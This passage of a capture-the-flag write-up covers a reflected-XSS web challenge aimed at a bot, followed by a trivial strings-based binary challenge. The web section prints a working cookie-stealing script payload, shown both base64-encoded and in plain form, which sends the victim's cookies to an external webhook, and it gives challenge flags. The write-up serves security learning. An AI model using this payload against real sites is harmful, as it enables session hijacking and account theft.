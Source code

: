 {{< image src="./img/web4.png" alt="" position="center" style="border-radius: 5px; width: 100%;" >}}

Looking around the site again, we find a place to submit a form - to Bill (the bot). However, as the description says, `Bill can only view pages from dvGPT`, so we need to find an XSS somewhere in the dvGPT site. An interesting thing is that visiting any invalid page returns a status code of 200 - along with our text! We can indeed inject arbitary code and gain reflected XSS in here.

{{< image src="./img/web5.png" alt="" position="center" style="border-radius: 5px; width: 100%;" >}}

So now we need to come up with a payload. There are already many payloads to steal cookies online by sending a GET request to a webhook with the cookie as a parameter, but after some experimenting around this seemed to work.

`https://wtashuxsyj.final.hackabit.com/<script>document.location=atob('aHR0cHM6Ly93ZWJob29rLnNpdGUvMTI2YzhiNjUtOTJiYi00ZDg4LWFhYmQtYmYxNDkxMmE4OTEwLz9hPQ==')+btoa(document.cookie)</script>`

It simply executes javascript which redirects the bot to my [online webhook](https://webhook.site/) with the base64 encoded cookie as a parameter.

```js
<script>document.location="https://webhook.site/126c8b65-92bb-4d88-aabd-bf14912a8910/?a="+btoa(document.cookie)</script>
```

I base64 encoded the webhook url as the `?` character would confuse the URL string into thinking it was a parameter for the main site's url (`wtashuxsyj.final.hackabit.com`).

Checking the webhook we get the flag: `flag{mirroring_to_the_max}`

{{< image src="./img/web6.png" alt="" position="center" style="border-radius: 5px; width: 100%;" >}}

# 2. Corruption

This category contained 4 challenges based on binaries - reverse engineering and binary exploitation were needed to solve all 4! Also, all the challenges used the same binary...

## Santa (75)

> You all asked for it so here it is, an intro to binary exploitation!

> Let's get started nice and simple, baby steps to reverse engineering (RE).

> All challenges in this section use the same binary. The target is x86 and ASLR is on but it shouldn't be relevant to any of your exploits.

We get a binary file. We can simply strings grep the file to get the flag - not much reverse engineering involved, I guess. Flag: `flag{baby_steps_gift_just_for_you}`

```bash
uwuteddy@DESKTOP-5BVRVO8:~$ strings corruption |grep -i flag
flag{baby_steps_gift_just_for_you}
flag_function
controller_flag
```
